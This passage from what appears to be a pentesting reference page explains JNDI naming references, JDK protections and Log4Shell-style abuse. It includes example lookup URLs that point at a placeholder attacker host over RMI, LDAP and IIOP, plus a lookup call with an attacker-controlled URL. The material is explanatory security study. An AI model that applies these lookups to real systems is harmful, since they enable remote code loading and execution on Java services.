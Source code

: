 # JNDI - Java Naming and Directory Interface & Log4Shell

## Basic Information

JNDI, integrated into Java since the late 1990s, serves as a directory service, enabling Java programs to locate data or objects through a naming system. It supports various directory services via service provider interfaces (SPIs), allowing data retrieval from different systems, including remote Java objects. Common SPIs include CORBA COS, Java RMI Registry, and LDAP.

### JNDI Naming Reference

Java objects can be stored and retrieved using JNDI Naming References, which come in two forms:

- **Reference Addresses**: Specifies an object's location (e.g., _rmi://server/ref_), allowing direct retrieval from the specified address.
- **Remote Factory**: References a remote factory class. When accessed, the class is downloaded and instantiated from the remote location.

However, this mechanism can be exploited, potentially leading to the loading and execution of arbitrary code. As a countermeasure:

- **RMI**: `java.rmi.server.useCodeabseOnly = true` by default from JDK 7u21, restricting remote object loading. A Security Manager further limits what can be loaded.
- **LDAP**: `com.sun.jndi.ldap.object.trustURLCodebase = false` by default from JDK 6u141, 7u131, 8u121, blocking the execution of remotely loaded Java objects. If set to `true`, remote code execution is possible without a Security Manager's oversight.
- **CORBA**: Doesn't have a specific property, but the Security Manager is always active.

However, the **Naming Manager**, responsible for resolving JNDI links, lacks built-in security mechanisms, potentially allowing the retrieval of objects from any source. This poses a risk as RMI, LDAP, and CORBA protections can be circumvented, leading to the loading of arbitrary Java objects or exploiting existing application components (gadgets) to run malicious code.

Examples of exploitable URLs include:

- _rmi://attacker-server/bar_
- _ldap://attacker-server/bar_
- _iiop://attacker-server/bar_

Despite protections, vulnerabilities remain, mainly due to the lack of safeguards against loading JNDI from untrusted sources and the possibility of bypassing existing protections.

### JNDI Example

![[../../images/image (1022).png]]

Even if you have set a **`PROVIDER_URL`**, you can indicate a different one in a lookup and it will be accessed: `ctx.lookup("<attacker-controlled-url>")` and that is what an attacker will abuse to load arbitrary objects from a system controlled by him.

### CORBA Overview

CORBA (Common Object Request Broker Architecture) employs an **Interoperable Object Reference (IOR)** to uniquely identify remote objects. This reference includes essential information like:
